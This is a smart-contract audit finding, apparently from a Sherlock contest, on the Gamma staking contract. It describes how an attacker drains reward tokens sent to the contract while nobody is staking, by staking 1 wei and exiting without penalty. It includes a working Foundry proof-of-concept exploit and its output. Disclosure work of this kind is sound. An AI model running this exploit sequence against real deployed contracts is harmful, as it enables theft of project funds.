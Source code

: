 Crazy Green Deer

high

# Attackers can drain the reward tokens sent to the staking contract when no one is staking

## Summary
If reward tokens are sent to the staking contract when no one is staking, an attacker can drain these reward tokens without locking their staking tokens. This results in the loss of the project's undistributed rewards.

## Vulnerability Detail
The staking contract can have zero stakers in the following situations:
1. The staking contract is newly deployed and configured, but no user has staked yet.
2. During an emergency, all stakers exit the contract and after some time, the team restarts the staking contract.

According to the [README](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/README.md?plain=1#L39):
> The reward tokens will be sent periodically to the staking contract

Additionally, reward tokens might come from other contracts in the Gamma protocol, which do not consider the state of the staking contract when sending rewards.
Therefore, reward tokens could be sent to the staking contract when there are no stakers.

In this situation, attackers can drain these rewards without locking staking tokens. When the staking contract has zero stakers and there are reward tokens in the contract, an attacker can stake into the contract, then immediately call [`notifyUnseenReward()`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L504-L511). This increases the `cumulatedReward` in the `rewardData` of the reward token. The attacker can then call [`getAllReward()`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L517-L519) to retrieve the reward tokens.

Moreover, due to precision loss in the [`calcPenaltyAmount()`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L569-L586) function, if the staked amount is 1 wei, the `penaltyAmount` will be 0 during the `earlyExitById` call. This means the attacker can stake 1 wei in the above scenario and call [`earlyExitById`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L313C14-L343) to retrieve this 1 wei after retrieving the rewards.


### Proof of Concept
```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Lock.sol";
import "../src/libraries/LockList.sol";
import "../src/mock/MockToken.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";

contract PoC is Test {
    MockToken stakingToken;
    MockToken rewardToken;

    Lock lock;
    LockList lockList;

    address deployer = makeAddr("deployer");
    address treasury = makeAddr("treasury");

    address attacker = makeAddr("attacker");

    function setUp() public {
        vm.startPrank(deployer);
        {
            // mock tokens
            stakingToken = new MockToken("stakingToken", "stkToken", 18);
            vm.label(address(stakingToken), "staking token");

            rewardToken = new MockToken("rewardToken", "rewardTKN", 18);
            vm.label(address(rewardToken), "reward token");
        }
        lockList = new LockList(deployer);
        {
            // deploy Lock
            Lock impl = new Lock();
            bytes memory data = abi.encodeCall(Lock.initialize, (address(lockList), 15_000, 35_000, deployer));
            ERC1967Proxy proxy = new ERC1967Proxy(address(impl), data);
            lock = Lock(address(proxy));
        }
        lock.setStakingToken(address(stakingToken));
        lock.addReward(address(rewardToken));
        {
            // set up lockPeriods
            uint256[] memory lockPeriod = new uint256[](3);
            lockPeriod[0] = 30 days;
            lockPeriod[1] = 720 days;
            lockPeriod[2] = 360 days;
            uint256[] memory lockMultiplier = new uint256[](3);
            lockMultiplier[0] = 1;
            lockMultiplier[1] = 1;
            lockMultiplier[2] = 2;
            lock.setLockTypeInfo(lockPeriod, lockMultiplier);
        }
        lock.setTreasury(treasury);
        lockList.transferOwnership(address(lock));
        vm.stopPrank();

        rewardToken.mint(address(this), 1_000 ether);
        stakingToken.mint(attacker, 1);
    }

    function test_AttakcerCanDrainRewardsInEmptyLock() public {
        // send some rewards to the empty lock
        rewardToken.transfer(address(lock), 1_000 ether);

        console.log("before attack:");
        console.log("   rewardToken balance in the Lock: ", rewardToken.balanceOf(address(lock)));
        console.log("   rewardToken balance of attacker: ", rewardToken.balanceOf(attacker));
        console.log("   stakingToken balance in the Lock: ", stakingToken.balanceOf(address(lock)));

        vm.startPrank(attacker);
        // attak start
        // 1. stake 1 wei amount of stakingToken into the lock
        stakingToken.approve(address(lock), 1);
        lock.stake(1, attacker, 0);

        // 2. call notifyUnseenReward to distribute the reward
        address[] memory rewardTokens = new address[](1);
        rewardTokens[0] = address(rewardToken);
        lock.notifyUnseenReward(rewardTokens);

        // 3. call getAllRewards to get the reward
        lock.getAllRewards();

        // 4. call earlyExitById to withdraw the 1 wei stakingToken
        lock.earlyExitById(0);

        // attack finished
        vm.stopPrank();

        console.log("after attack:");
        console.log("   rewardToken balance in the Lock: ", rewardToken.balanceOf(address(lock)));
        console.log("   rewardToken balance of attacker: ", rewardToken.balanceOf(attacker));
        console.log("   stakingToken balance in the Lock: ", stakingToken.balanceOf(address(lock)));
    }
}

```

Run the above foundry test with command:
```bash
forge test --mc PoC -vv
```

will get the following result:
```bash
[PASS] test_AttakcerCanDrainRewardsInEmptyLock() (gas: 509088)
Logs:
  before attack:
     rewardToken balance in the Lock:  1000000000000000000000
     rewardToken balance of attacker:  0
     stakingToken balance in the Lock:  0
  after attack:
     rewardToken balance in the Lock:  0
     rewardToken balance of attacker:  1000000000000000000000
     stakingToken balance in the Lock:  0
```

This demonstrates that attackers can drain the reward tokens sent to the staking contract when no one is staking.

## Impact

Attackers can drain the reward tokens sent to the staking contract when no one is staking, causing the loss of the project's undistributed rewards.

## Code Snippet
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L504-L511
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L569-L586
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L313C14-L343

## Tool used

Manual Review, foundry test

## Recommendation

It's recommended to require a minimum stake amount (e.g., 1e18 wei) in the stake() function.
Although the first staker can still receive all the rewards sent to the empty staking contract, it is fair because the staker must lock the minimum amount in the contract.
